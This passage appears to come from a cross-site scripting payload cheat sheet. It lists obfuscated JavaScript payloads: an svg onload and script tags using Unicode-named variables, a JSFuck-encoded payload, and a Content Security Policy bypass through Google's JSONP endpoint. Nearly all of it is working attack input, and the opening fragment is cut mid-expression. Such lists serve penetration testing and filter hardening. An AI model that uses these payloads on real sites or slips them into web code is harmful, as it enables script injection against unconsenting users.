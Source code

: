 ```javascript
च+ख[छ]+झ+ङ+घ[क]+च][झ](ग[क]+ग[
छ]+ख[ज]+च+ङ+'`एक्स०एस०एस`')``</script>

<svg onload=ꆇ='',ꉄ=!ꆇ+ꆇ,ꉦ=!ꉄ+ꆇ,ꊗ=ꆇ+{},ꀻ=ꉄ[ꆇ++],ꃋ=ꉄ[ꆚ=ꆇ],ꋕ=++ꆚ+ꆇ,ꐍ=ꊗ[ꆚ+ꋕ],ꉄ[ꐍ+=ꊗ[ꆇ]+(ꉄ.ꉦ+ꊗ)[ꆇ]+ꉦ[ꋕ]+ꀻ+ꃋ+ꉄ[ꆚ]+ꐍ+ꀻ+ꊗ[ꆇ]+ꃋ][ꐍ](ꉦ[ꆇ]+ꉦ[ꆚ]+ꉄ[ꋕ]+ꃋ+ꀻ+"(ꆇ)")()>

<script>
ⵗ='',ⵗⵗ=!ⵗ+ⵗ,ⵗⵗⵗ=!ⵗⵗ+ⵗ,ⵗⵗⵗⵗ=ⵗ+{},ⵗⵗⵗⵗⵗ=ⵗⵗ[ⵗ++],ⵗⵗⵗⵗⵗⵗ=ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ=ⵗ],ⵗⵗⵗⵗⵗⵗⵗⵗ=++ⵗⵗⵗⵗⵗⵗⵗ+ⵗ,ⵗⵗⵗⵗⵗⵗⵗⵗⵗ=ⵗⵗⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗⵗⵗⵗ],ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗⵗⵗ+=ⵗⵗⵗⵗ[ⵗ]+(ⵗⵗ.ⵗⵗⵗ+ⵗⵗⵗⵗ)[ⵗ]+ⵗⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗⵗ+ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗⵗⵗⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗ[ⵗ]+ⵗⵗⵗⵗⵗⵗ][ⵗⵗⵗⵗⵗⵗⵗⵗⵗ](ⵗⵗⵗ[ⵗ]+ⵗⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗ[ⵗⵗⵗⵗⵗⵗⵗⵗ]+ⵗⵗⵗⵗⵗⵗ+ⵗⵗⵗⵗⵗ+"(ⵗ)")()
</script>

```


### Bypass using jsfuck

Bypass using [jsfuck](http://www.jsfuck.com/)

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```

## CSP Bypass

Check the CSP on [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and the post : [How to use Google’s CSP Evaluator to bypass CSP](https://websecblog.com/vulns/google-csp-evaluator/)

### Bypass CSP using JSONP from Google (Trick by [@apfeifer27](https://twitter.com/apfeifer27))

//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
	
"><script/src="https://google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

More JSONP endpoints available in [/Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)

